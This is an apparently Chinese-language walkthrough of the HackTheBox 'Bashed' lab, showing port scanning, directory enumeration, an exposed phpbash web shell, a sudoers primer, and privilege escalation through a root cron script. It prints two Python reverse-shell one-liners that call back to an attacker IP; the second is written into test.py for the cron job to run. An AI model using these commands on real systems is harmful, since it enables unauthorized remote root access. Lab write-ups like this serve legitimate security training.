 # bashed

## 端口扫描

```shell
nmap -vv -sV -sT -A -T 4 10.129.208.65 
```

```
PORT     STATE    SERVICE          REASON      VERSION
80/tcp   open     http             syn-ack     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
259/tcp  filtered esro-gen         no-response
1417/tcp filtered timbuktu-srv1    no-response
5004/tcp filtered avt-profile-1    no-response
9111/tcp filtered DragonIDSConsole no-response

```

### 访问下80端口

![image-20230501152755513](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230501152755513.png)

## 目录探测

```shell
gobuster dir --url http://10.129.208.65 -w /usr/share/wordlists/dirb/small.txt
```

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.208.65
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/01 14:29:51 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 312] [--> http://10.129.208.65/css/]
/dev                  (Status: 301) [Size: 312] [--> http://10.129.208.65/dev/]
/images               (Status: 301) [Size: 315] [--> http://10.129.208.65/images/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.208.65/js/]
/php                  (Status: 301) [Size: 312] [--> http://10.129.208.65/php/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.208.65/uploads/]
Progress: 959 / 960 (99.90%)
===============================================================
2023/05/01 14:30:35 Finished
===============================================================
```

### 访问下/dev

![image-20230501153106883](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230501153106883.png)

![image-20230501153207799](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230501153207799.png)

### 获得了user的flag，尝试进一步提权到root

## 权限提升

![image-20230501153250145](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230501153250145.png)

### 补充一点关于sudoers文件的知识

```
规则讲解

sudoers文件的数据，每一行分为五个部分，我们用ABCDE来表示。
 一般情况下是: A B = {©} {D} E
 且C与D是可以省略的，我们用大括号扩起来方便大家注意到，但真正书写命令的时候不需要打括号。

    第一个部分A代表授权使用sudo的用户或者组
    第二部分B代表允许授权用户在哪些主机上使用这些权利
    第三部分C代表允许被授权用户提权到什么用户什么组级别的权限，如果省略就代表允许提权到任意用户级别。
    第四部分D代表当被授权用户是否需要输入自身密码来使用特权，若省略这代表需要输入密码
    第五部分E代表允许执行的命令，如果是all就代表允许执行所有命令

第一部分A

A表示的是哪个用户或者哪个用户组拥有执行sudo的权限，当A前面带有%的时候，代表的是用户组。
 例如
 admin all = (all) all
 这行命令表示admin用户可以登陆到任意主机，并且可以提权到任意用户，并且可以执行任意命令，但需要输入用户admin到密码。
 如果在admin前面加上%就会使得admin组的所有用户拥有这些权限，使用的时候需要输入对应用户的密码。而这一行命令典型的就是省略了第四个属性，也就是D，D代表的是密码。
第二部分B

B代表用户可以在哪些电脑上使用这些特权，这一个字段一般是主机名。
 例如：jack mycomputer=/usr/sbin/reboot,/usr/sbin/shutdown
 上面这行表示jack可以在mycomputer上提权到root用户，并且允许以root权限使用reboot与shutdown命令，但是需要输入jack的密码才可以。
第三部分C

代表的是允许提权到的目标用户与组，例如(root:root)的意思就是提权到root用户root组，也就是当前用户使用sudo命令的时候会获得与root用户root组相同的权限。
 当C参数隐藏的时候，默认提权权限就是root。如果是all的话就是指的可以提权到任意用户任意权限。
第四部分D

这个参数是用来定义当目标用户使用sudo的时候，是否需要输入用户密码。如果为NOPASSWD:则表示不需要，否则为需要,注意字母后面带了冒号。
第五部分E

表示允许执行的命令。
```

### 先把shell转发到kali机器上，直接在phpbash里运行python反弹shell的命令

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"
```

### 后面的步骤需要耐心观察+运气了

```shell
cd /script
ls -la

```

### 多次使用ls -la可以看到test.txt的最后修改时间，每隔一段时间就会更新。并且test.txt的文件所有者是root，可能是root用户的定时任务每隔一段时间运行test.py生成而来的。这里如果对test.txt的最后一次修改时间观察不仔细，很容易漏掉这个细节，这也是我踩的一个坑。

```
echo 'import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);' > test.py
```

### 再次将反弹shell的命令写test.py，同时监听12345端口，看看等下能不能收到shell。

![image-20230501180811085](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230501180811085.png)

### 看了下计划任务，果然定时执行test.py文件。
